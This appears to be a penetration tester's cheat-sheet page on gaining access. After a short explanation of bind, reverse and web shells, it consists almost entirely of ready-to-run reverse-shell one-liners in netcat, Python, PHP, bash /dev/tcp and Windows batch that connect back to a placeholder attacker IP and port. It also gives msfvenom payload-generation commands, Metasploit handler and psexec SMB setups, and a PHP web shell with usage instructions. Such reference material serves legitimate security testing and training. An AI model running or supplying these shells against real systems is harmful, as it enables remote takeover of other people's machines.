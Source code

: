 ```yaml
---
title: 3 – Reverse Shell
summary: Gaining Access step – a note for obtaining a reverse shell on the target.
description: Gaining Access step – a note for obtaining a reverse shell on the target.
---
```


# Reverse vs Bind vs Web Shell

---

### Bind Shell

**The code is used to start a listener attached to a shell on the target.** 
Then we can connect to the port to obtain remote code execution. 
This has the advantage of not requiring any configuration on our network, but may be prevented by firewalls protecting the target.

### Reverse Shell

**The code makes the target to connects back to the attacker computer.** 
Reverse shells are a good way to bypass firewalls. The drawback is that we need to configure our network to accept the shell: we need to set up an handler.

### Web Shell

**The code allows the attacker to send shell commands to the target server via a web page hosted on this server.**

# Reverse Shell Handlers

---

### NETCAT


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on delected port.

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > \*\*<font color=red>set payload linux/x86/meterpreter/reverse_tcp</font> \*\*</br>
 > **<font color=red>exploit</font>**</br>
 > Handler for linux (efl) reverse shell.

# Reverse Shell Multi

---

### Resources

[PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

[Pentestmonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

### NETCAT


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("</font>\[ATTACKER_IP\]<font color=red>",</font>\[ATTACKER_PORT\]<font color=red>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</font>**</br>
 > Reverse Shell.

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>exec("/bin/bash -c 'bash -i > /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1'");</font>**</br>
 > **<font color=red>?\></font>**</br>
 > Very simple reverse shell.

Fancy reverse shell:
**[Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)**
Location on Kali: <font color=lightblue>/usr/share/webshells/php/php-reverse-shell.php</font>

# Reverse Shell Windows

---

### BAT


 > 
 > **<font color=red>@echo off nc.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>-e cmd.exe</font>**</br>
 > Reverse Shell.

---

### HOAXSHELL


 > 
 > **<font color=red>sudo python3 hoaxshell.py -s</font> \[ATTACKER_IP\]**</br>
 > Create a reverse shell payload (that utilizes `Invoke-Expression`) and start a handler.

---

### MSVENOM


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

---

### METASPLOIT (SMB)


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > **<font color=red>exploit</font>**</br>
 > Create a reverse shell from a SMB share.

# Reverse Shell Linux

---

### BASH


 > 
 > **<font color=red>bash -i >& /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1</font>**</br>
 > Reverse Shell.

---

### MSVENOM


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

 > 
 > **<font color=red>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f elf ></font> reverse.elf**</br>
 > Generate a Meterpreter Reverse Shell for Linux x86.
 > 
 > **<font color=red>msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f elf ></font> reverse.elf**</br>
 > Generate a Meterpreter Reverse Shell for Linux x64.

# Web Shell

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>system($\_GET\["</font>cmd<font color=red>"\]);</font>**</br>
 > **<font color=red>?></font>**</br>
 > Web shell. After upload, go to http://\[TARGET_IP\]/myWebShell.php?cmd=whoami
